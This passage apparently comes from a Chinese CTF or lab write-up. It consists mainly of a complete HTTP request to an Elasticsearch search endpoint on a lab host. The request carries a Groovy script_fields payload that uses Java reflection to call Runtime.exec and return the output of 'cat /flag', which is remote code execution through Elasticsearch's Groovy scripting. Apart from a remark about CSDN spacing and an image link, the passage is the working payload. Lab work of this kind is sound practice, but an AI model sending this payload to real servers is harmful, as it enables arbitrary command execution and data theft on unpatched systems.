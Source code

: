 

csdn上的空格有问题

```
POST /_search?pretty HTTP/1.1
Host: eci-2zeiruv5maej7rdx7viy.cloudeci1.ichunqiu.com:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 498

{
    "size":1,
    "script_fields": {
        "test#": {  
            "script":
 
             "java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /flag\").getInputStream())).readLines()",
 
            "lang": "groovy"
        }
    }
 
}
```

![image-20230712160008461](%E9%9D%B6%E5%9C%BA.assets/image-20230712160008461.png)
